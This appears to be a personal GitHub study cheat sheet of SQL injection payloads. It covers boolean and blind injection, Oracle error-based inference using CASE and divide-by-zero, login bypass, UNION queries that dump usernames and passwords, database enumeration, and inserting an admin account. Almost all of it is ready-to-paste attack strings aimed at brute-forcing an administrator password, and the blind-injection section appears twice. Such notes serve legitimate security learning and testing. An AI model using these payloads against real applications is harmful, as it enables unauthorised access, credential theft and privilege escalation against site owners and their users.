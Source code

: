 # SQLi notes

#### Testing booleans (for BSQLi)
Remember to try `AND` `OR` `HAVING`  
we can test the ability bruteforce/presence of users by selecting a char, limiting to 1 and then comparing, so the below would become `a=a`  
`b' OR (select 'a' from users limit 1)='a`  
Now we can take a step further and confirm we have a user called "Administrator"  
`b' OR (select 'a' from users where username='administrator')='a`  
The ball keeps on rolling, and we can begin the makings of bruteforce attack by testing the length of password  
`b' OR (select 'a' from users where username='administrator' and length(password)>1)='a;`  
Once we have the length of the password we can bruteforce with a python script or intruder.
For intruder we use cluster bomb, and use the grep option to flag responses we know differ in `FALSE` and `TRUE`  
`b' OR (select substring (password,§1§,1) from users where username='administrator')='§a§`  

#### BlindSQL:
Truth must be "infered" generally with a sleep function, a 500 response, or DNS callout to webhooks/collaborator

Once we can get an injection, we need to confirm that the server is interpreting the injection as a valid query. This is done with a subquery.  
We initially send an empty query, if a 500 is returned, we may need to complete the query by selecting from a db. Ifreceive an error, this indicates that the target is probably using an Oracle database, which requires all SELECT statements to explicitly specify a table name.
`' ||(select '')||'`  
`' ||(select '' from dual)||'`  
We can then start to infer information, such as the existence of `users`  
`'||(SELECT '' FROM users WHERE ROWNUM = 1)||'`
We weaponise this using the CASE statement, which will test a condition and if true/false will evaluate an expression.  
So, in the event that CASE comes out TRUE, we divide by 0 - causing an error.  
`'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'`  
Now we start to infer the existence of information (users, passwords, tables, etc)  
`'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`  
`'||(SELECT CASE WHEN length(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'` 
Length of password  
`'||(SELECT CASE WHEN LENGTH(password)>2 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'. Then send: TrackingId='||(SELECT CASE WHEN LENGTH(password)>3 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`

#### Example PoCs: [BlindSQLI Brute](https://github.com/kymb0/General_code_repo/blob/master/Code_templates/bruteforce_blindsqli.py) [BlindNOsqli Brute](https://github.com/kymb0/General_code_repo/blob/master/Code_templates/brute_mongoDB_nosqli.py)

#### Bypass login
`admin' UNION SELECT 'pass' AS password FROM admins WHERE '1' = '1` in username field and then `pass` in password field  
`' or 1 =1 LIMIT 1,1#`

#### To jump to other tables:
`' UNION SELECT username, password FROM users--`

#### Enumerate database columns
`SELECT * FROM information_schema.tables`

#### Grab DB name
`%’ or 0=0 union select null, database() #`

#### Grab all column contents
`%’ and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users # Click Submit`

#### Grab a pw
`1 or 1 =1 union Select 1, password from users`  
`1'union select null, concat_ws (char (32,58,32), user, password) from users #`
`' or (select 1 from (Select count(*),concat((select password from admins),"+",floor(rand()*2))a from information_schema.tables group by a)b)#`

#### Enumerate version:
`SELECT * FROM v$version`
`SELECT @@version`
`SELECT version()`

#### Create your own user:
`INSERT INTO users (username, password, ID, privs) VALUES ('nuadmin','pass',2248,1)`

#### Hijack user creation form to create a user with admin privs:
`nuadmin', 'pass', 9999, 0)--`

#### Enumerating columns:
Consider an online user search, its statement would be something like:

`SELECT * FROM users WHERE ID=1`

To enumerate what we can union select, we can add a union select, and keep adding columns until we no longer get errors.

`ID=1 UNION SELECT 1,2--` OR `ID=1 ORDER BY 4` OR `GROUP BY 1,2,3,4,5,6,7,8,9,10`

If data from only first part of query is returned, we can invalidate it:

`ID=1 AND 1=2 UNION SELECT 1,2,3--`

If this returns our own values, we can start emumerating sys info:

`id=1 and 1=2 union select version(), user(),3`

#### Quick tips:
space sanitisation can be defeated with `/**/`

sometimes adding a comment at the end of query can complete the injection `--` (postgresql) `#` (mysql) `--+-`

Sometimes a webpage will take a parameter as a string, not an int - in which case we close the quotes so our entire injection isnt considered one string:

`SELECT * FROM users WHERE ID=1'` *Remember you may need to close the attack with another apostrophe*

`UNION` only selects distnict, use `UNION ALL` to select duplicates

To begin an attack, try to break the string with an invalidation

Pay attention to the backend use of single and double quotes in errors

#### BlindSQL:
Truth must be "infered" generally with a sleep function

Once we can get an injection, we need to confirm that the server is interpreting the injection as a valid query. This is done with a subquery.  
We initially send an empty query, if a 500 is returned, we may need to complete the query by selecting from a db. Ifreceive an error, this indicates that the target is probably using an Oracle database, which requires all SELECT statements to explicitly specify a table name.
`' ||(select '')||'`  
`' ||(select '' from dual)||'`  
We can then start to infer information, such as the existence of `users`  
`'||(SELECT '' FROM users WHERE ROWNUM = 1)||'`  
We weaponise this using the CASE statement, which will test a condition and if true/false will evaluate an expression.  
So, in the event that CASE comes out TRUE, we divide by 0 - causing an error.  
`'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'`  
Now we start to infer the existence of information (users, passwords, tables, etc)  
`'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`  
`'||(SELECT CASE WHEN length(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'`  
Now we bruteforce as before  
`'||(SELECT CASE WHEN SUBSTR(password,§1§,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`  

### [Error Based SQLi](https://github.com/kymb0/web_study/blob/master/sqli/error_based_sqli.md)
